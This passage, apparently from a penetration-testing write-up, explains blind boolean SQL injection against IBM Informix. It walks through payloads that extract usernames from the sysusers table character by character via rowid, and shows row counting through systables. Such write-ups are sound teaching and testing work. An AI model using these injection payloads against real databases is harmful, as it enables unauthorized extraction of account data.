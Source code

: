 In the previous section, we covered how to use the `tabid` column as a sequential number system that could be used to enumerate tables. After looking up how the `sysusers` table is organized, it was found that there was no viable sequential number system. As per IBM's official documentation, the following columns make up the `sysusers` table:

* username
* usertype
* priority
* password
* defrole

It was at this point that we used the hidden column `rowid` as part of the `WHERE` portion of our SQL query. The following example query could be used in enumerating the ASCII value of the first letter of the first username where the `rowid` was 1:

```
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 1) > 1
#returned data
```

After enumerating the first username, we can proceed to enumerate the other usernames based on the `rowid` value:

```
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 2) > 1
#returned data
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 3) > 1
#returned data
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 4) > 1
#returned data
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 5) > 1
#returned data
```

It gets interesting when the `rowid` value reaches reaches the 5000s:

```
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 5000) > 1
#returned no data
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 5001) > 1
#returned no data
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 5002) > 1
#returned some data
```

To help resolve this, the `nrows` column in the `systables` table could be used to help establish when we have found a valid user. This is because the `nrows` value is determined based on the number of non-empty rows in a table.

The following query could help determine the number of rows in the `sysusers` table:

```
1=1 AND (SELECT nrows FROM systables WHERE tabname = 'sysusers') > 1
#returned some data
```

Using this query, we can determine that the number of rows with data in the `sysusers` table was 1000:
